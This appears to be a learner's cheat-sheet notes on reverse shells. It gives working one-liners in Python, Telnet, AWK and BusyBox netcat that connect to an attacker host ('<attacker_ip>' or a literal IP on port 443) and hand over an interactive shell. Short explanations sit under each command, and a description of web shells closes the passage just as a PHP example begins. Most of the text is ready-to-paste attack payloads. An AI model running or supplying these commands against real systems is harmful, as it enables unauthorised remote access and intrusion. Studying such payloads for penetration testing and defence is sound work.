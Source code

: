 Python
- Python Reverse Shell by Exporting Environment Variables
	```python
	export RHOST="<attacker_ip>"; export RPORT=443; python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("bash")
	```
	- This revshell sets the remote host and port as environment variables
	- Then creates a socket connection, and duplicates the socket file descriptor for standard input/output
- Python Reverse Shell Using the Subprocess Module
	```python
	python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.4.99.209",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")'
	```
	- This shell uses the `subpocess` module to spawn a shell and set up a similar environment as the revshell just above
	- Apparently the `subprocess` module is commonly used to manage shell command and establishing reverse shell connections in security assessments
- Short Python Reverse Shell
	```python
	python -c 'import os,pty,socket;s=socket.socket();s.connect(("<attacker_ip>",443));[os.dup2(s.fileno(),f)for f in (0,1,2)];pty.spawn("bash")'
	```
	- This revshell creates a socket (`s`), then connects to the attacker, redirecting standard input, output and error to the socket using `os.dup2()`

Other Shells
- Telnet
	```shell
	TF=$(mktemp -u); mkfifo $TF && telnet <attacker_ip>443 0<$TF | sh 1>$TF
	```
	- This Revshell creates a named pipe (`mkfifo`) and connectso the attacker via Telnet on `<attacker_ip>` and port `443` 
		- Not sure if there's supposed to be a gap between the att_ip and port 
			- need to test, but it's Telnet... lel
- AWK
	```shell
	awk 'BEGIN {s = "/inet/tcp/0/<attacker_ip>/443"; while(42) { do{ printf "shell>" |& s; s |& getline c; if(c){ while ((c |& getline) > 0) print $0 |& s; close(c); } } while(c != "exit") close(s); }}' /dev/null
	```
	- This Revshell uses AWK's built-in TCP capabilities to connect to the attackers IP and Port.
	- It reads commands from the attacker and executes them, it then sends the results back over the same TCP connection
- BusyBox
	- `busybox nc <attacker_ip> 443 -e sh`
		- This BusyBox revshell uses Netcat to conect to the attacker at the attackers IP address and port. 
		- Once connected, it executes `/bin/sh`, thus exposing the command line to the attacker

Web Shells
- A web shell is a script written in a language supported by a compromised web-server that will execute commands through the web-server itself. 
- A Web Shell is usually a file containing code that executes commands and handles files. 
- It can be hidden within a compromised web-application or service - which can make it difficult to detect and popular among attackers. 
- Languages:
	- PHP
	- ASP
	- JSP
	- Simple CGI scripts
- PHP Web Shell Example:
	```php